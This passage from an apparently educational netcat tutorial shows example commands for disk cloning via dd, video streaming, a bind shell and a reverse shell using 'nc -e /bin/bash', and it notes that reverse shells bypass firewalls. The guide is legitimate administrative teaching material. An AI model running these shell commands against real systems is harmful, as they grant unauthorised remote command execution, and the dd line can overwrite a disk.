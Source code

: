 Client
```console
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

**Note:** Cloning a Linux PC is very easy. Let's say your system disk is `/dev/sda`.

### j. Video streaming
Server (192.168.1.9)
```console
$ cat video.avi | nc -l 8000
```

Client
```console
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

**Note:** Streaming video with netcat

### k. Remote shell
Server (192.168.1.9)
```console
$ nc -lv 8000 -e /bin/bash
```

Client
```console
$ nc 192.168.1.9 8000
```

**Note:** We have used remote shell using telnet and ssh but what if both are not installed and we don't have permission to install them then we can create remote shell using netcat also.

### l. Reverse shell
Server (192.168.1.9)
```console
$ nc -lv 8000
```

Client
```console
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

**Note:** Reverse shells are often used to bypass firewall restrictions such as blocked incoming connections

Netcat or nc, is a highly adaptable utility with a wide range of applications. This guide has illustrated how to use it through various examples, showing its capacity to establish connections, transfer data, and serve as an easy-to-use yet powerful networking tool.

For network enthusiasts and administrators, it is an excellent resource for debugging, port scanning, and connection establishment. It is an essential part of any networking toolkit due to its simple syntax and extensive functionality. Users can leverage the capabilities of netcat to enhance their network-related tasks and troubleshooting efforts by using the knowledge they gain from this guide.
